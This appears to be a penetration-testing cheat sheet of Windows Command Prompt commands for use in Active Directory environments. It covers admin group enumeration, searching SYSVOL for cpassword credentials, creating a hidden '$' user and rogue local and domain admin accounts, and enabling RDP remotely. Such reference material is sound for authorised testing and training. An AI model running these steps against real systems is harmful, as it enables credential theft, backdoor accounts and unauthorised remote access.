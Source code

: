 ```yaml
---
title : "cmd"
# pre : '<i class="fas fa-code"></i> '
description : "Microsoft Command Prompt."
date : 2020-07-09T12:52:37+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CMD - Command Prompt

{{%attachments fa_icon_class="far fa-file" pattern=".*(exe)"%}}

### Show Domain Admins / Enterprise Admins

`net group "Domain Admins" /domain`

`net group "Enterprise Admins" /domain`

### Run CMD on non-domain joined machine as domain user

`runas /netonly /user:<DOMAIN>\<USER> cmd.exe`

Use the `/profile` flag for running the CMD in the context of the user explicitly on a domain joined system.

`runas /profile /user:<DOMAIN>\<USER> cmd.exe`

Or start an elevated prompt using CMD / PowerShell

`powershell -Command "Start-Process cmd -Verb RunAs"`

### Enable access to C-drive in Explorer

`subst z: c:\`

### Finding cpassword

`findstr /s /n /i /p cpassword \\<DOMAIN>\sysvol\*`

### Show privileges current user

```plain
$ whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
win10\johndo S-1-5-21-4192065701-4228146649-662612674-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

### List domain controllers (DC)

```cmd
$ nltest /dclist:offsec.nl

Get list of DCs in domain 'offsec.nl' from '\\DC2016.offsec.nl'.
    DC2008R2.offsec.nl [PDC]  [DS] Site: Default-First-Site-Name
      DC2016.offsec.nl        [DS] Site: Default-First-Site-Name
      DC2019.offsec.nl        [DS] Site: Default-First-Site-Name
The command completed successfully
```

### Add less visible user

Local admin required.

`net user $ LetMeIn123! /add /active:yes`

### Enable / disable Remote Desktop (RDP)

You can enable (remotely) Remote Desktop (RDP) by adjusting the register key. Tip: use 'smbexec.py' / 'wmiexec.py' to enable on remote system where RDP is not enabled. Or use the CrackMapExec module RDP see [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}).

Enable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Disable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f`

### Add Local Admin via CMD

Creation of the user 'NewLaForMe' - `net user NewLAForMe "NotThatStrongPassword@" /add /Y`

Adding the user to the group - `net localgroup Administrators NewLAForMe /add`

### Add Domain Admin / Enterprise Admin via CMD

Creation of the user 'NewDAForMe' - `net user NewDAForMe "NotThatStrongPassword@" /add /domain /Y`

Adding the user to the group - `net group "Domain Admins" NewDAForMe /add /domain` / `net group "Enterprise Admins" NewDAForMe /add /domain`

Set user status to Active - `net user NewDAForMe /active:yes /domain`

Set user expire date - `net user NewDAForMe /expires:07/19/23 /domain`
